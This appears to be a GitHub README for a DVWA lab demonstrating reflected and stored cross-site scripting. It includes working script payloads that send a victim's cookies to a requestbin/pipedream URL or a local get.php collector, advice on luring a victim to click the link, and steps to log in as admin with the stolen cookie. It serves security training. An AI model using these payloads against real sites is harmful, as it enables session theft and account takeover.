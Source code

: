 # Cross-site-Scripting_XSS
## 1. Installation
- Move the directory "dvwa" and "mywebsite" to the xampp installation directory
For example:
E:\ xampp\htdocs\dvwa
E:\xampp\htdocs\mywebsite

- Upload the file "dvwa.sql" to: http://localhost/phpmyadmin/

## 2. Deploy and attack
### - Access url: http://localhost/dvwa/

### - XSS - Reflected
+ Identify website with XSS reflected error?
+ After determining that there are errors XSS Reflected. Send the link to the user. (The ability to seduce the victim depends on each person, assuming we can seduce the victim to click on the link)
+ Access to https://requestbin.com/ to Create request bin (In this example, my request bin is https://requestbin.com/r/en3xwxviv17aq)
+ Insert the script: <script>document.write('<IMG SRC=\"https://en3xwxviv17aq.x.pipedream.net?cookie='+document.cookie+'\">Hello</IMG>');</script>
+ View the cookie you just got and exploit that cookie
(Go to https://requestbin.com/r/en3xwxviv17aq to exploit the cookies you just grabbed)

### - XSS - Stored
+ Create 2 files: get.php (get cookie) and cookie.txt (empty to save her
+ Upload to site message will save to guestbook in database (dvwa.sql)
+ Login as customer to insert code to get admin cookie: <script>window.location="http://localhost/mywebsite/get.php?cookie="+document.cookie;</script>

+ the link to the get.php file contains the code to get the cookie you just created
+ Now switch to the admin account
+ When the admin accesses, the admin will successfully self-direct and get the admin cookie
+ Use add-on on your browser to access when you know the admin cookie
+ Login as admin successfully (Don't need to know password)

# Note: To use cookie exploited from the victim, each browser must install the cookie tool (add-on) depending on the extendtions of each browser.
